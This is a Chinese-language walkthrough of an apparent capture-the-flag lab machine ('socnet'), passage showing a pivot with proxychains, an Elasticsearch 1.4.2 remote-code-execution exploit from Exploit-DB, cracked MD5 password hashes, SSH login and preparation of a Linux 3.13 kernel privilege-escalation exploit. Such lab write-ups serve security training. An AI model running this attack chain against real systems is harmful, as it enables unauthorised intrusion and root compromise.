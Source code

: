 ```Shell
proxychains nmap -P0 -p9200 -sV 172.17.0.2
# 9200/tcp open  http    Elasticsearch REST API 1.4.2 (name: Valentina Allegra de La Fontaine; cluster: elasticsearch; Lucene 4.10.2)
```
发现 `172.17.0.2` 中开启了一个Elasticsearch服务，搜索相关漏洞
```Shell
searchsploit Elasticsearch
# 发现两个远程代码执行利用脚本 拷贝一个试试
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .
```
执行利用脚本
```Shell
proxychains ./36337.py 172.17.0.2
```
成功连接
```Shell
id # 查看当前用户 发现还是root
ls -la # 查看文件
# 发现.dockerenv 还是Docker容器
```
还有一个passwords文件，内容如下，
```
Format: number,number,number,number,lowercase,lowercase,lowercase,lowercase
Example: 1234abcd
john:3f8184a7343664553fcb5337a3138814
test:861f194e9d6118f3d942a72be3e51749 
admin:670c3bbc209a18dde5446e5e6c1f1d5b
root:b3d34352fc26117979deabdf1b9b6354
jane:5c158b60ed97c723b673529b8a3cf72b
```
使用在线网站对其进行MD5解密
```
john:3f8184a7343664553fcb5337a3138814 # 1337hack
test:861f194e9d6118f3d942a72be3e51749 # 1234test
admin:670c3bbc209a18dde5446e5e6c1f1d5b # 1111pass
root:b3d34352fc26117979deabdf1b9b6354 # 1234pass
jane:5c158b60ed97c723b673529b8a3cf72b # 1234jane
```
尝试使用这些账号密码SSH登录目标系统
```Shell
ssh john@192.168.1.25 # 成功
# Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)
# 其它的都失败了
# Permission denied, please try again.
```
尝试获取root权限
```Shell
sudo su # 失败了
# john is not in the sudoers file.  This incident will be reported.
sudo -l # 失败了
# Sorry, user john may not run sudo on socnet.
```
最常见的提权方式是通过内核漏洞
```Shell
# 查看内核版本
uname -a
# Linux socnet 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```
搜索漏洞
```Shell
searchsploit Linux 3.13
# 尝试一个看起来可靠的
cp /usr/share/exploitdb/exploits/linux/local/37292.c .
```
打开漏洞利用源码后发现，需要用到gcc，只能在本机编译好后传输到目标机器上执行。
查看代码，进一步发现，还需要一个共享库，也用到了gcc，需要手动修改代码，去除这部分编译库文件的操作，改为手动将库文件传输到目标机器上。